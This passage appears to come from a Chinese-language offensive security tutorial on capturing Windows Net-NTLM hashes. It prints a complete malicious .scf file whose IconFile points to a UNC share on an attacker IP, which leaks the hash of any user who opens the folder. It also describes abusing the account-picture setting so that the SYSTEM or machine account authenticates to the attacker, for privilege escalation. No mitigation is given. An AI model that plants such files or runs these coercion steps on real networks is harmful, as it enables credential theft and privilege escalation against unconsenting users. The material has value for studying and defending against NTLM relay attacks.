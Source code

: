 [![](assets/1701222524-b6e05083da884753d1e4af0e4d412f18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141106-eac8d346-8db4-1.png)

### SCF 文件利用

scf 文件包含了 IconFile 属性，所以 Explore.exe 会尝试获取文件的图标，而 IconFile 是支持 UNC 路径的，以下是 scf 后缀的文件的格式

```bash
[Shell]
Command=2
IconFile=\\192.168.188.129\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

新建 test.scf，之后写入以上内容并将其放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的 net-ntlm hash~  
[![](assets/1701222524-2116e18cd5aa2a3af2af1bb8f7a725a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141152-062cb3be-8db5-1.png)

### 用户头像利用

此方法适用于 Windows 10/2016/2019，在更改账户图片处用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问192.168.188.129，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个也可以用来提权  